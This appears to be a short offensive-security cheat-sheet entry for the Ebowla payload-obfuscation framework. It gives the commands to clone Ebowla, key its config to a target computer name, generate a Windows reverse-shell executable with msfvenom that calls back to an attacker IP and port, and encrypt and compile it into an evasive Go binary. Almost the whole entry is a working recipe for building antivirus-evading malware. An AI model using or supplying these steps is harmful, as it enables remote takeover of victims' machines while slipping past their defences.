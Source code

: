 <a href="https://github.com/Genetic-Malware/Ebowla">Ebowla</a>

```bash
git clone https://github.com/Genetic-Malware/Ebowla.git
nano genetic.config:
	output_type = GO
	payload_type = EXE
	username = ''
	computername = 'DESKTOP-1337'
	userdomain = ''

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.1 LPORT=777 -f exe -a x64 -o rev.exe
python ebowla.py rev.exe genetic.config
./build_x64_go.sh output/go_symmetric_rev.exe.go rev-enc.exe
```